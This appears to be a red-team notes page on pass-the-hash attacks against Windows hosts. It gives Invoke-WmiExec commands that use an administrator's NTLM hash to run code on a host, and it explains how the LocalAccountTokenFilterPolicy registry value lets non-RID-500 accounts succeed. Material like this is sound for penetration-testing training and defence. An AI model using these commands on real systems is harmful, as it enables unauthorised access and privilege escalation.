 # Pass The Hash: Privilege Escalation with Invoke-WMIExec

## Execution

If you have an NTLMv2 hash of a local administrator on a box ws01, it's possible to pass that hash and execute code with privileges of that local administrator account:

```csharp
Invoke-WmiExec -target ws01 -hash 32ed87bd5fdc5e9cba88547376818d4 -username administrator -command hostname
```

Below shows how the user `low` is not a local admin, passes the hash of the local `administrator` account on ws01 and executes a command successfully:

![](../../.gitbook/assets/image%20%28151%29.png)

## RID != 500 - No Pass The Hash for You

Say you have a hash of the user spotless who you know is a local admin on ws01:

![](../../.gitbook/assets/image%20%288%29.png)

...but when you attempt passing the hash, you get access denied - why is that?

![](../../.gitbook/assets/image%20%28123%29.png)

It may be because hashes for accounts that are not RID=500 \(not default administrator accounts\) are stripped of some privileges during the token creation.

![](../../.gitbook/assets/image%20%28165%29.png)

![](../../.gitbook/assets/image%20%2852%29.png)

If the target system you are passing the hash to, has the following registry key/value/data set to 0x1, pass the hash will work even for accounts that are not RID 500:

```text
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy
```

![](../../.gitbook/assets/image%20%2831%29.png)

```csharp
Invoke-WmiExec -target ws01 -hash 32ed87bd5fdc5e9cba88547376818d4 -username spotless -command hostname
```

![](../../.gitbook/assets/image%20%2829%29.png)

## References

{% embed url="https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/" %}

